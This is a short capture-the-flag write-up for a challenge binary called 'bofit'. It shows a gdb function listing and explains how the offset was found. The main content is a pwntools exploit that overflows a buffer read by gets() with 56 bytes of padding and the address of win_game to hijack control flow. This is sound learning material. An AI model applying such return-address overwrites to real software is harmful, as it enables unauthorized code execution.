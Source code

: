```
0x0000000000401120  getchar@plt
0x0000000000401130  time@plt
0x0000000000401140  gets@plt
0x0000000000401150  fopen@plt
0x0000000000401160  rand@plt
0x0000000000401170  _start
0x00000000004011a0  _dl_relocate_static_pie
0x00000000004011b0  deregister_tm_clones
0x00000000004011e0  register_tm_clones
0x0000000000401220  __do_global_dtors_aux
0x0000000000401250  frame_dummy
0x0000000000401256  win_game
0x00000000004012a9  play_game
0x000000000040141a  welcome
0x00000000004014b6  main
0x0000000000401500  __libc_csu_init
0x0000000000401570  __libc_csu_fini
0x0000000000401578  _fini
gef➤
```

I used the cyclic method with gdb to determine my offset, then finished the exploit by adding the address of win_game in order to jump there when I deliberately trigger the return condition

Also it should be noted there appear to be no cases in which the function calls exit(), and it will return if you trigger the break on any of the cases by answering incorrectly

With this I used the cyclic method with gdb to determine my offset, then finished the exploit by adding the address of win_game in order to jump there when I deliberately trigger the return condition

Here's the exploit

```
from pwn import *

target = process(b'./bofit')

#pid = gdb.attach(target, "\nb *play_game+368\ncontinue")

print(target.recvuntil(b'BOF it to start!'))

target.sendline(b'B')

while True:
        current = target.recvuntil(b'it!')
        print(current)
        if b'BOF' in current:
                target.sendline(b'B')
        elif b'Pull' in current:
                target.sendline(b'P')
        elif b'Twist' in current:
                target.sendline(b'T')
        else:
                #payload = cyclic(200)
                padding = b'a' * 56
                payload = padding
                payload += p64(0x00401256)
                target.sendline(payload)
                break
print(target.recvuntil(b'it!'))
target.sendline(b'end') #basically i just want the game to end so rip will call win_game xD
target.interactive()
```
